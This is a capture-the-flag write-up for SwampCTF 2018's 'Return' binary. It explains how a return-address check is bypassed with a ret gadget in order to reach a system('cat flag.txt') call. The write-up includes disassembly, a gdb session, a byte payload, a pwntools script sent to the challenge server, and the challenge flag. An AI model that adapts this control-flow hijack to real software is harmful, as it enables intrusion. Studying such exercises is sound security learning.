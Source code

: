# For Apprentice's Return in swampctf 2018

This is how the program worked.
```
solomonbstoner@swjsUbuntu:~/Downloads$ ./return
As you stumble through the opening you are confronted with a nearly-immaterial horror: An Allip!  The beast lurches at you; quick! Tell me what you do: 
hello there
Oh no! Your actions are completely ineffective! The allip approaches and as it nears, you feel its musty breath and are paralyzed with fear. It gently caresses your cheek, and you turn and flee the dungeon, leaving the battle to be fought another day...
solomonbstoner@swjsUbuntu:~/Downloads$ 
```
The program reads only up to 50 bytes from your input. Any more than that will be ignored.


### Analysis of the program

This is the portion of the program that read our input and gave the following output. It is part of the `<doBattle>` function.
```
0x804852d:   e8 5e fe ff ff         	call 0x8048390 <read>  ;read(stdin, 0xffffced2, 50 chars)
0x8048532:   83 c4 10               	add esp, 0x10
0x8048535:   8d 45 da               	lea eax, dword [ ebp + 0xffffffda ]
0x8048538:   83 c0 2a               	add eax, 0x2a
0x804853b:   8b 00                  	mov eax, dword [ eax ]
0x804853d:   89 c2                  	mov edx, eax
0x804853f:   b8 95 85 04 08         	mov eax, 0x8048595
0x8048544:   39 c2                  	cmp edx, eax
0x8048546:   76 2b                  	jbe 0x8048573 <doBattle+0x78>
0x8048548:   83 ec 0c               	sub esp, 0xc
0x804854b:   68 4c 87 04 08         	push 0x804874c ; "Oh no! Your actions are completely ineffective! The allip approaches and as it nears, you feel its musty breath and are paralyzed with fear. It gently caresses your cheek, and you turn and flee the dungeon, leaving the battle to be fought another day..."
0x8048550:   e8 5b fe ff ff         	call 0x80483b0 <puts>
```

Something is very perculiar about...
```
0x804853f:   b8 95 85 04 08         	mov eax, 0x8048595
0x8048544:   39 c2                  	cmp edx, eax
0x8048546:   76 2b                  	jbe 0x8048573 <doBattle+0x78>
```
... in that it takes 4 bytes of our input located at `0xffffcefc` and compares it to the value `0x8048595`. If our input is lesser, then it essentially becomes the address to which `<doBattle>` returns after it ends.


This means we have very limited addresses that we can return to, and definitely cannot return to the stack (as it is in address `0xffffced2`). To overcome this problem, I put the return address to `0x8048372:   c3    	ret` from the `<_init>` function. Then we get to return to anywhere we want.

Shall we return to the stack to run a shellcode from there? Would have if I could have. The stack has NX bit set. 
```
solomonbstoner@swjsUbuntu:~/Downloads$ readelf -l return | grep -i "Stack"
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x10
```

Actually, I soon realised there was a function called `<slayTheBeast>`. In it contains these 2 instructions.
```
0x8048615:   68 ea 8a 04 08         	push 0x8048aea ; "cat flag.txt\n"
0x804861a:   e8 a1 fd ff ff         	call 0x80483c0 <system>
```
That is all we need to get a flag printed out; by calling `system("cat flag.txt")`.

### Winning this challenge

This is the format of my input:
```
<42 * 'a'>< 0x8048372 >< 0x8048615 >
```

Let's go for a test run:
```
solomonbstoner@swjsUbuntu:~/Downloads$ echo -e "\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x72\x83\x04\x08\x15\x86\x04\x08" > exploit\ for\ return

(gdb) run < exploit\ for\ return
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/solomonbstoner/Downloads/return < exploit\ for\ return
As you stumble through the opening you are confronted with a nearly-immaterial horror: An Allip!  The beast lurches at you; quick! Tell me what you do: 

Breakpoint 3, 0x0804852d in doBattle ()
=> 0x0804852d <doBattle+50>:	e8 5e fe ff ff	call   0x8048390 <read@plt>
(gdb) c
Continuing.

Breakpoint 2, 0x08048532 in doBattle ()
=> 0x08048532 <doBattle+55>:	83 c4 10	add    esp,0x10
(gdb) x/32x 0xffffced2
0xffffced2:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffcee2:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffcef2:	0x61616161	0x61616161	0x83726161	0x86150804
0xffffcf02:	0xcf200804	0x0000ffff	0x06370000	0xa000f7e1
0xffffcf12:	0xa000f7fa	0x0000f7fa	0x06370000	0x0001f7e1
0xffffcf22:	0xcfb40000	0xcfbcffff	0x0000ffff	0x00000000
0xffffcf32:	0x00000000	0xa0000000	0xdc04f7fa	0xd000f7ff
0xffffcf42:	0x0000f7ff	0xa0000000	0xa000f7fa	0x0000f7fa
(gdb) c
Continuing.

Breakpoint 5, 0x08048546 in doBattle ()
=> 0x08048546 <doBattle+75>:	76 2b	jbe    0x8048573 <doBattle+120>
(gdb) p/x $eax
$11 = 0x8048595
(gdb) p/x $edx
$12 = 0x8048372
(gdb) c
Continuing.
Your actions take the Allip by surprise, causing it to falter in its attack!  You notice a weakness in the beasts form and see a glimmer of how it might be defeated.

Breakpoint 4, 0x08048596 in doBattle ()
=> 0x08048596 <doBattle+155>:	c3	ret    
(gdb) x/2x $esp
0xffffcefc:	0x08048372	0x08048615
(gdb) ni
0x08048372 in _init ()
=> 0x08048372 <_init+34>:	c3	ret    
(gdb) 
0x08048615 in slayTheBeast ()
=> 0x08048615 <slayTheBeast+58>:	68 ea 8a 04 08	push   0x8048aea
(gdb) 
0x0804861a in slayTheBeast ()
=> 0x0804861a <slayTheBeast+63>:	e8 a1 fd ff ff	call   0x80483c0 <system@plt>
(gdb) 
cat: flag.txt: No such file or directory
```

It worked!!

So, I fed the input into the server, and I got the flag 
```
from pwn import *
shellcode ="\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x72\x83\x04\x08\x15\x86\x04\x08"
p = remote("chal1.swampctf.com", 1802)
print p.recvuntil("what you do:")
p.send(shellcode)
p.interactive()
```
```
solomonbstoner@swjsUbuntu:~/Downloads$ python return.py
[+] Opening connection to chal1.swampctf.com on port 1802: Done
As you stumble through the opening you are confronted with a nearly-immaterial horror: An Allip!  The beast lurches at you; quick! Tell me what you do:
[*] Switching to interactive mode
 
Your actions take the Allip by surprise, causing it to falter in its attack!  You notice a weakness in the beasts form and see a glimmer of how it might be defeated.
flag{f34r_n0t_th3_4nc13n7_R0pn1qu3}
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to chal1.swampctf.com port 1802
```

END
